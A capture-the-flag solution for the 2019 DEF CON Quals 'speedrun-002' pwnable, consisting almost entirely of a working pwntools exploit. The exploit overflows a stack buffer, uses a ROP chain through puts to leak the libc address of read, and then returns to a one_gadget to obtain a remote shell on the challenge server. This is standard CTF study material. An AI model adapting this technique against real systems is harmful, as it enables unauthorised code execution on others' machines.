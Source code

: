 # **speedrun-002**

#### tag : pwnable, rop

-----------------------------------------------

#### Description

-----------------------------------------------

#### Solution

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
r = remote('speedrun-002.quals2019.oooverflow.io', 31337)

e = ELF('./speedrun-002')
l = ELF('./libc.so.6')
libc_read_offset = l.symbols['read']
one_gg = 0x4f322
main = 0x4007ce
puts_plt = e.symbols['puts']
puts_got = e.got['puts']
write_got = e.got['write']
read_got = e.got['read']

# 0x00000000004008a3 : pop rdi ; ret
gg1 = 0x00000000004008a3

rr = lambda x: r.recvuntil(str(x))
ss = lambda x: r.sendline(str(x))

m = 'Everything intelligent is so boring.\x00'
p = 'a' * 0x408
p += flat(
	gg1,
	read_got,
	puts_plt,
	main
)

rr('\n')
ss(m)
rr('\n')
rr('\n')
ss(p)
rr('\n')
rr('\n')

libc_read = u64(rr('\n')[:-1].ljust(8,'\x00'))
libc_base = libc_read - libc_read_offset
libc_one_gg = libc_base + one_gg

p2 = 'a' * 0x408
p2 += p64(libc_one_gg)

rr('\n')
ss(m)
rr('\n')
rr('\n')
ss(p2)

r.interactive()
```
